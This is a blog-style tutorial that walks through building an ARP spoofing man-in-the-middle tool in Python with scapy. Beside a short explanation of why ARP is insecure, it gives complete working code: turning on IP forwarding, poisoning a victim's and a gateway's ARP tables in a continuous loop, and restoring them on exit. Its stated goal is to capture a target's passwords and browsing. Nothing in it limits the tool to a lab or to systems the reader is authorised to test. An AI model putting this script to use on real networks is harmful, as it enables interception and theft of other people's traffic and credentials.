 ```yaml
---
layout: post
title:  How to Build an ARP Spoofing Tool Using Python
date:   2019-02-18
tags: Computer_Science
author: "Aaron John"
---
```


In this documentation, I will go through the process on how to write an ARP Spoofing program which will enable us to redirect the flow of packets. The main focus on using this tool will be to redirect packets to flow through our computer.

Therefore, any requests sent and responses received by the target client computer, will have to flow through our computer (attack machine) since we are the MITM (Man In The Middle). Hence, images, usernames, passwords, websites or any information entered by the target client will have to flow through our attack machine. Then, by using the ARP Spoofing tool, we can read this information, modify it, or even drop the packets. This is all possible because ARP is not very secure.

Before I go into why ARP is not secure, let's discuss why ARP is used. ARP is used so that clients can identify other connected clients on the same network, and next, they can get the clients MAC address. The reason being, clients on the same network connect with each other using the MAC address. (Note: here, each client device on the same network has an ARP table which links ip addresses to it's respective MAC address.) In order to view your network ARP table, type the following in terminal:
```shell
arp -a
```

Unfortunately, the MAC address can be modified by exploiting the ARP protocol. In order to exploit this protocol we will send *two ARP responses*. One response to the gateway AP(i.e. router access point) and another response to the target client (i.e. victim's computer). Here, we will tell the gateway that our attack machine is at the IP of the target client. Hence, the gateway AP will update it's ARP table and it will associate the IP of the target client with our attack machine's MAC address. We will do the same response process with the target client machine, making it modify its ARP table so that it will associate thee IP of the gateway AP with our attack machine's MAC address.

Therefore, we end up fooling the target client computer that our attack machine is the gateway AP and the gateway AP will think our attack machine is the target client computer.
Hence, to sum everything up, whenever the target client sends a request, it will flow through our attack machine and then we will port forward it to the gateway AP. The same process applies for the gateway AP. So, when the gateway AP sends a response it will flow through our attack machine and then we will send that response to the target client. Therefore, this makes us the man in the middle of the connection.

*Why ARP is not secure?*
As listed above, clients *accept responses* even if they did not send a request. Also, the reason clients accept responses is because they trust the incoming response without any form of verification.

**Process on How to Build an ARP Spoofing Program**

1. Since the attack machine is not a router, when it get's requests, it stops the packets from flowing through it and going to the router. This happens because it is a security feature in Linux systems. Therefore, we need to enable port forwarding, so that the attack machine will allow packets to flow through it just like a router. In order to accomplish this, open a terminal window and type the following command to enable port forwarding.
    ```shell
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
(Note: Linux comes with a built in ARP Spoofing tool, However let's create our own ARP Spoofing tool.)

2. Next, let's create a new python file using any IDE you prefer and we will start off by importing the the necessary modules to complete the task. Here, I added a shebang at the beginning of the script, so that the script recognizes the interpreter type when you execute the script from shell. Here, by using the scapy module, we can create, and send an ARP response. Plus, we can use scapy to extract a MAC address. The time module will help us handle time delay to send packets, which you will see further into the documentation. Finally, the sys module will help us flush the output buffer which you will also see in the later steps.
    ```python
    #!usr/bin/env python

    import scapy.all as scapy
    import time
    import sys
    ```

3. Next, we will create two global variables to save the target client IP address, and the gateway access point IP address.
    ```python
    target_ip = "10.15.20.6"
    gateway_ip = "10.15.20.1"
    ```

4. Next, let's create a function to extract MAC address. Here, we will use the scapy module, which lets us do the same functions as Netdiscover and NMap: to scan the network. (See python comments for info.)
    ```python
    def get_mac(ip):
        arp_request = scapy.ARP(pdst=ip)  #using scapy module to create ARP packet object and .ARP to ask who has target client IP
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff") #set destination MAC to broadcast MAC
        arp_request_broadcast = broadcast/arp_request #scapy allows us to combine both ARP request and also broadcast at the same time
        answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0] #send packet and receive response
        return answered_list[0][1].hwsrc
    ```
(Note: Disable NAT network in using virtual machine when using an external adapter to discover systems.)

5. Next, let's go ahead and create a function to create ARP responses and send those responses in order to spoof the desired machine. Which means, we can poison the ARP table, which will put is in the middle of the connection. From the scapy module, we will use the "op" field and let's set it to the integer 2 in order to send an ARP response. Because, by default "op" is set to 1, which means it will always send an ARP request when an ARP packet is created. Below, pdst is set to the target clients IP address (destination IP: which is the target machine to be poisoned), hwdst is set to target clients MAC address which is obtained from the get_mac function and psrc is set to the IP address we want to spoof. Basically psrc is the source of where the response is coming from and here we fake the IP and set the IP of the AP router.
    ```python
    def spoof(target_ip, spoof_ip):
        target_mac = get_mac(target_ip)
        packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        scapy.send(packet, verbose=False) #scapy.send will send the packets for us
    ```
(Note: Do route -n to get IP of router and also for more info on scapy, go to python interpreter and type "import scapy.all as scapy" and then type "scapy.ls(scapy.ARP)" to view all the option fields of the scapy module. Also, even tho we dont mention it above, scapy will set the hwsrc to our attack machine MAC address by default.) Next, once scapy.send is executed, the ARP table of target client machine should be poisoned. Do "arp -a" from target client side to confirm.

6. Next, we will write a function to restore the ARP tables, so that when we quit the program it will revert the ARP tables and associate the IP address with the correct Mac address. Hence, the traffic can start flowing normally. The need for a restore function is if the ARP table is not restored, we will still be the MITM even if we quit the program. (Note: After some time the ARP tables will go back to default, because we are not continuously sending spoofing response packets. However, it is better practice to restore everything to the way it was, when we quit the program.)
    ```python
    def restore(destination_ip, source_ip):
        destination_mac = get_mac(destination_ip)
        source_mac = get_mac(source_ip)
        packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
        scapy.send(packet, count=4, verbose=False) #here count=4 is to send packet response 4 times. verbose=False so that scapy.send runs in the background
    ```
(Note: here we need to specify the source MAC address - hwsrc or else scapy will set the hwsrc to our attack machine MAC address by default.)

7. Finally, we can start using the above functions. We will use the spoof function twice, the first spoof call is to tell the target client machine (victim) that our attack machine has the gateway AP (router) MAC address. A second spoof function call is to tell the gateway AP (router) that our attack machine has the target client machine (victim) MAC addresss. This will make us the MITM of the connection. However, in order to maintain the poisoning of the target ARP tables, we need to continuously send ARP responses. Therefore, we will do a while loop that will send a ARP spoof to both target client and gateway AP every two seconds. This is possible by using the time module, which will put the while loop to sleep for 2 seconds.
    ```python
    try:
        sent_packets_count = 0
        while True:
            spoof(target_ip, gateway_ip)
            spoof(gateway_ip, target_ip)
            sent_packets_count = sent_packets_count + 2
            print("\r[+] Packets sent: " + str(sent_packets_count)),
            sys.stdout.flush()
            time.sleep(2)
    except KeyboardInterrupt: #to make the tool UI pretty, use try/except block, so that error is not shown when user does a keyboard interruption.
        print("\n[-] CTRL + C : Keyboard Interruption => Restoring ARP tables now. Please wait...\n")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
    ```
(Note: python buffers everything when you have a comma after a print statement. Meaning, everything will be printed in the background, and you will see all the print statements when you CTRL + C. Therefore, we will tell python to flush this buffer and print statements instantly using sys.stdout.flush() Therefore, the program won't wait for the user to CTRL + C in order to show output of print statements. After this line of code, everything will start to print in one line. To avoid this ugly screen output, I over-write the previous print statement and replace a new print statement by using '\r' which tells python to print statements from the start of the line. Hence, now it will dynamically print the sent packets statement.)

* The above sys.stdout.flush() only works with python 2.7 and below. For python 3 use:
```python
    print("\r[+] Packets sent: " + str(sent_packets_count), end="") #Where end="" will tell python not to add anything to the end of the print statement.
```
